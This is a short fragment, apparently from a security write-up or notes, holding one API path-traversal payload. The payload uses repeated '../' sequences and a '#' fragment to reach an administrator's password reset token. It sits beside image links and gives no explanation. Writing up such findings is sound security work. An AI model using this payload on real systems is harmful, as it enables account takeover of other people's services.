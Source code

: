 ```python
/api/internal/v1/users/administrator/../../../../../../../../api/internal/v1/users/administrator/field/passwordResetToken#/field/email
```

![](/img2/Pasted%20image%2020251003114120.png)